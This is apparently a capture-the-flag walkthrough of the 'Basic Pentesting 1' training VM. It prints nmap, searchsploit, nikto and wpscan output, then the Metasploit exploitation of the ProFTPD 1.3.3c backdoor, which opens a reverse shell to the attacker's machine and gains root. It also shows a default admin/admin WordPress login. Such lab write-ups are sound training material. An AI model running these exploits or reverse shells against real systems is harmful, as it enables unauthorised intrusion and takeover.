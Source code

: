 # Basic Pentesting 1

> This is a small boot2root VM I created for my university’s cyber security group. It contains multiple remote vulnerabilities and multiple privilege escalation vectors. I did all of my testing for this VM on VirtualBox, so that’s the recommended platform. I have been informed that it also works with VMware, but I haven’t tested this personally.
This VM is specifically intended for newcomers to penetration testing. If you’re a beginner, you should hopefully find the difficulty of the VM to be just right.
Your goal is to remotely attack the VM and gain root privileges. Once you’ve finished, try to find other vectors you might have missed!

## Port Scanning

The initial port scan resulted the following output:

```
root@kali:~# nmap -A -p 1-65535 192.168.43.220
Nmap scan report for vtcsec (192.168.43.220)
Host is up (0.00021s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:06:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernelTRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms vtcsec (192.168.43.220)
```

I was curious about that ftp version, so I used searchsploit to search for possible exploits.

```
root@kali:~# searchsploit proftpd 1.3.3cProFTPd 1.3.3c

 - Compromised Source Backdoor Remote Code Execution
 | exploits/linux/remote/15662.txtProFTPd-1.3.3c
 
 - Backdoor Command Execution (Metasploit)
 | exploits/linux/remote/16921.rb
```

## Gaining Access

Jackpot! It has a known command execution vulnerability. I fired up Metasploit to exploit it:

```
root@kali:~# msfconsoleMetasploit Park, System Security Interface
  Version 4.0.5, Alpha E
  Ready...
  > access security
  access: PERMISSION DENIED.
  > access security grid
  access: PERMISSION DENIED.
  > access main security grid
  access: PERMISSION DENIED....and...
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!=[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]msf > search proftpd 1.3.3c
[!] Module database cache not built yet, using slow searchMatching Modules
================Name                                         Disclosure Date  Rank       Description
   ----                                         ---------------  ----       -----------
   exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   exploit/linux/ftp/proftp_sreplace            2006-11-26       great      ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    NetSupport Manager Agent Remote Buffer Overflow
   exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  ProFTPD-1.3.3c Backdoor Command Execution
   exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  ProFTPD 1.3.5 Mod_Copy Command Executionmsf > use exploit/unix/ftp/proftpd_133c_backdoor
msf exploit(unix/ftp/proftpd_133c_backdoor) > show optionsModule options (exploit/unix/ftp/proftpd_133c_backdoor):Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)Exploit target:Id  Name
   --  ----
   0   Automaticmsf exploit(unix/ftp/proftpd_133c_backdoor) > set rhost 192.168.43.220
rhost => 192.168.43.220
msf exploit(unix/ftp/proftpd_133c_backdoor) > exploit[*] Started reverse TCP double handler on 192.168.43.5:4444 
[*] 192.168.43.220:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9xULzd6TE7qgtjRB;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "9xULzd6TE7qgtjRB\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.43.5:4444 -> 192.168.43.220:56522)
```

Alright, I got a root shell. I upgraded it to a pseudo-terminal using python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
root@vtcsec:/# whoami
root
```

At this point point, I owned the machine, but I went on to check out the web server with nikto.

```
root@kali:~# nikto -h 192.168.43.220
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.43.220
+ Target Hostname:    192.168.43.220
+ Target Port:        80
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0xb1 0x55e1c7758dcdb 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header 'link' found, with contents: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 8 item(s) reported on remote host
```

Nikto picked up a secret directory, which contained a Wordpress installation.

```
root@kali:~# wpscan 192.168.43.220/secret
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________[i] Please use '-u 192.168.43.220/secret' next time[i] It seems like you have not updated the database for some time
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > Y
[i] Updating the Database ...
[i] Update completed
[+] URL: http://192.168.43.220/secret/[+] Interesting header: LINK: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://192.168.43.220/secret/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: http://vtcsec/secret/index.php/feed/   [HTTP 200]
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| admin |
+-------+
[!] Upload directory has directory listing enabled: http://192.168.43.220/secret/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://192.168.43.220/secret/wp-includes/[+] Enumerating WordPress version ...[+] WordPress version 4.9.8 (Released on 2018-08-02) identified from advanced fingerprinting, meta generator, links opml, stylesheets numbers[+] WordPress theme in use: twentyseventeen - v1.4[+] Name: twentyseventeen - v1.4
 |  Last updated: 2018-08-02T00:00:00.000Z
 |  Location: http://192.168.43.220/secret/wp-content/themes/twentyseventeen/
 |  Readme: http://192.168.43.220/secret/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.7
 |  Style URL: http://192.168.43.220/secret/wp-content/themes/twentyseventeen/style.css
 |  Referenced style.css: http://vtcsec/secret/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/[+] Enumerating plugins from passive detection ...
[+] No plugins found passively
```

I tried logging in as admin to the site with the password admin and it was a success. Look like, it is another way to get root/admin privileges on the machine. I found some kernel exploits, but I didn’t tried them. Maybe uploading a PHP reverse shell or malicious plugin and using a kernel exploit for privilege escalation would have been good as well.
